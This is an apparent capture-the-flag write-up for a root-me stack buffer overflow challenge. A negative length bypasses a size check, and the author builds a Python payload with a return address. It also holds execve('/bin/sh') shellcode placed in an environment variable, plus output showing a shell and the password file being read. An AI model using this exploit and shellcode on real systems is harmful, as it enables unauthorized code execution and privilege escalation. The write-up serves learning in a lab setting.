 ### S0lv3d by H4yicl3

First i download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```
I use IDA to analysis the code .
```c
int __cdecl read_file(int fd)
{
  char *v1; // edx@1
  unsigned int v2; // ebx@1
  int v3; // edi@5
  int v4; // edx@5
  int size; // [sp+18h] [bp-90h]@9
  char path; // [sp+1Fh] [bp-89h]@1
  int v8; // [sp+20h] [bp-88h]@2

  v1 = &path;
  v2 = 129;
  if ( (unsigned int)&path & 1 )
  {
    path = 0;
    v1 = (char *)&v8;
    v2 = 128;
  }
  if ( (unsigned __int8)v1 & 2 )
  {
    *(_WORD *)v1 = 0;
    v1 += 2;
    v2 -= 2;
  }
  memset(v1, 0, 4 * (v2 >> 2));
  v3 = (int)&v1[4 * (v2 >> 2)];
  v4 = (int)&v1[4 * (v2 >> 2)];
  if ( v2 & 2 )
  {
    *(_WORD *)v3 = 0;
    v4 = v3 + 2;
  }
  if ( v2 & 1 )
    *(_BYTE *)v4 = 0;
  if ( read(fd, &size, 4u) != 4 )     //the line code get 4 byte first of file we read to a size of file!! if <size <4 call exit(0)
  {
    puts("[-] File too short.");
    exit(0);
  }
  if ( size > 127 )			//if size >127 call exit(0)
  {
    puts("[-] Path too long.");
    exit(0);
  }
  read_data(&path, fd, size);
  if ( path != 0x2F )                  //if the path[0] != 0x2F (char "/") call exit(0)
  {
    puts("[-] Need a absolute path.");
    exit(0);
  }
  return printf("[+] The pathname is : %s\n", &path);
}
```
try to understand code you know !! 
See the source code we know !! the buffer size is 128
it is the global variable of this program
```c
#define BUFFER 128
//the function read file to buffer
void read_data(char *data, int fd, int size)
{
  while(read(fd, data, 1) == 1 && *data && size) if(size !=0 and data !=0 and read function can excute 
    {
      size--;		 //the following steps
      data++;
    }
//we can write more byte if size not =0 
//that mean we will overflow the size with negative number
}
```
try that i write the following python script look like
```python
padding ="\xff\xff\xff\xff" #-1
padding +="\x2f"*128
padding +="A"*13
retn ="\x94\xd8\xff\xff"
print padding+retn
```
the retn i make with getenv function  http://pastebin.com/LZM64WGL
and shellcode here
```
export hayicle=$(python -c 'print "\x90"*4+"\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
./getenv hayicle ./ch11
hayicle will be at 0xffffd894
```
Finally i run this script
```
./ch11 password.txt 
[+] The pathname is : ////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////AAAAAAAAAAAAA����

$ whoami
hayicle
```

GLHF guys !!! Don't give up here !!


The script i try in sever!!
```
app-systeme-ch11@challenge02:~$ ./ch11 /tmp/ch11/input
[+] The pathname is : ////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////AAAAAAAAAAAAA����

sh-4.2$ ls
ch11  ch11.c
sh-4.2$ cat .passwd
```
and it work !! so lucky ! <3

